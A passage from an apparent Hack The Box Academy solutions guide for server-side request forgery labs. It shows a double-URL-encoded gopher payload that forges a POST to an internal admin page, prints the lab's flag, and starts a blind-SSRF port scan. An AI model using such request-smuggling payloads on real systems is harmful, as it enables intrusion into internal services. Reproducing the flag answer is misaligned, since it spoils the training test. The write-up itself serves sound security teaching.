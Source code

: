 To achieve this, students need to URL-encode all special characters to construct a valid gopher URL from this. In particular, spaces (`%20`) and newlines (`%0D%0A`) must be URL-encoded. Afterward, students need to prefix the data with the gopher URL scheme, the target host and port, and an underscore, resulting in the following gopher URL:

Code: shell

```shell
gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin
```

However, since we are sending our URL within the HTTP POST parameter `dateserver`, which itself is URL-encoded, we need to URL-encode the entire URL again to ensure the correct format of the URL after the web server accepts it (otherwise, we will get a `Malformed URL` error).

After URL encoding the entire gopher URL one more time, students can finally send the following request:

Code: http

```http
POST /index.php HTTP/1.1
Host: STMIP
Content-Length: 265
Content-Type: application/x-www-form-urlencoded

dateserver=gopher%3a//dateserver.htb%3a80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3a%2520dateserver.htb%250D%250AContent-Length%3a%252013%250D%250AContent-Type%3a%2520application/x-www-form-urlencoded%250D%250A%250D%250Aadminpw%253Dadmin&date=2024-01-01
```

![[HTB Solutions/CBBH/z. images/215e1df0670b4c19e6319f11d493a0bf_MD5.jpg]]

Answer: `HTB{61ea58507c2b9da30465b9582d6782a1}`

# Blind SSRF

## Question 1

### "Exploit the SSRF to identify open ports on the system. Which port is open in addition to port 80?"

Students must create a wordlist containing the ports they intend to scan. In this case, we'll use the first 10,000 ports:

Code: shell

```shell
seq 1 10000 > ports.txt
```

```
┌─[us-academy-5]─[10.10.14.225]─[htb-ac-594497@htb-exnwhqyj3p]─[~]
└──╼ [★]$ seq 1 10000 > ports.txt
```
